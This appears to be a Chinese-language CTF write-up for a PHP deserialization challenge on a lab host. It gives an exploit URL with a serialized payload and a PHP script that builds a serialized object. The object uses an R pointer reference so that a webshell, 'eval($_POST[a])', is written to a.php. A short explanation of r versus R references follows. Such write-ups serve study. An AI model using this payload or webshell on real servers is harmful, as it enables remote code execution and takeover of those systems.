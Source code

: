 `http://172.16.172.202:8009/?source=1&A[]=1&B[]=2&ans=O%3A7%3A%22GGetflagetflag%22%3A1%3A%7Bs%3A8%3A%22%00%2A%00value%22%3Bi%3A1%3B%7D`

得到`flag{flag_1s_in_youcantfind/d0cb52940652171fc01a7639aa7285537f13ad97.php}`

打开[http://172.16.172.202:8009/youcantfind/d0cb52940652171fc01a7639aa7285537f13ad97.php](http://172.16.172.202:8009/youcantfind/d0cb52940652171fc01a7639aa7285537f13ad97.php)

构造反序列化使得filename与out一致且out中包含webshell即可

```php
<?php
error_reporting(0);
show_source(__FILE__);
class CatchRecord
{

        public $filename, $out, $msg;
        public function __construct(){
            $this->out=&$this->filename;
            $this->msg='/<?php eval($_POST[a]);?>/../a.php';
            $this->out = date("Y/m/d/H/i/s") . "/" . $_SERVER['REMOTE_ADDR'] . "/" . $this->msg;
            var_dump($this->filename);
            var_dump($this->out);
        }
    }
$a=new CatchRecord();
var_dump(serialize($a));
```

```php
string '2021/10/08/03/50/36/172.16.172.202//<?php eval($_POST[a]);?>/../a.php' (length=69)
string '2021/10/08/03/50/36/172.16.172.202//<?php eval($_POST[a]);?>/../a.php' (length=69)
string 'O:11:"CatchRecord":3:{s:8:"filename";s:69:"2021/10/08/03/50/36/172.16.172.202//<?php eval($_POST[a]);?>/../a.php";s:3:"out";R:2;s:3:"msg";s:34:"/<?php eval($_POST[a]);?>/../a.php";}' (length=181)
```

https://hujiekang.top/2020/09/25/PHP-unserialize-advanced/

关于对象引用r和指针引用R：

这两者在引用方式上是有区别的，可以理解为对象引用是一个单边的引用，被赋值的那个变量可以任意修改值，而不会影响到被引用的那个对象；而指针引用则是一个双边的引用，被赋值的那个变量若做了改动，被引用的那个对象也会被修改。也就是说指针引用其实就是两个对象指针指向了同一块内存区域，所以任一指针的数值修改其实都是在对这块内存做修改，也就会影响到另一个指针的值；而对象引用的被赋值对象就像一个临时的指针，指向了被引用对象的内存区域，而当被赋值对象的值修改之后，这个临时指针就指向了另一块内存。